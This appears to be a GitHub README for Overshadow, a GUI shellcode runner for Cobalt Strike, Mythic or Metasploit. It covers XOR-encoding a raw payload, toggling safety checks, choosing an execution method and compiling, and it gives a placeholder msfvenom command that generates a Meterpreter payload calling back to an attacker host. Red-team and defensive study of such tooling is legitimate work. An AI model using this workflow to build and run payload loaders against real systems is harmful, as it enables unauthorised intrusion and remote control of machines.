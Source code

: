 ## Overshadow

# What is Overshadow?

Overshadow is a shellcode runner for use with Cobalt Strike, Mythic, or Metasploit. At its core, Overshadow utilizes ScatterBrain to configure the original binary for use. There are a number of safety checks that can be enabled/disabled as needed, as well as three different execution methods. 

It's worth noting that by default all of the SafetyChecks are disabled and the execution method is not configured. 

# How do I use it?

First you're going to need to generate a payload in the "Raw" format. Export that .bin file to where you have Overshadow and either drop it in the Assets/Files folder, or upload it via the options within the program. From there you can choose to add key for the XOR (By default this is set to SOUR.), pick specific safety checks, and choose an execution method. After that, all that's left is to compile and save your payload where you want and to run. 

	1) Generate Raw Payload
	2) Add custom XOR Key (Optional)
	3) Compile and save

# Meterpreter sample command for raw payload

```msfvenom -p <payload> lhost=<lhost> lport=<lport> -f raw > payload.bin```

This is my first attempt at making a GUI, so feel free to leave feedback on what can be improved. Enjoy!

![Home](Overshadow/Assets/Images/Home.PNG)
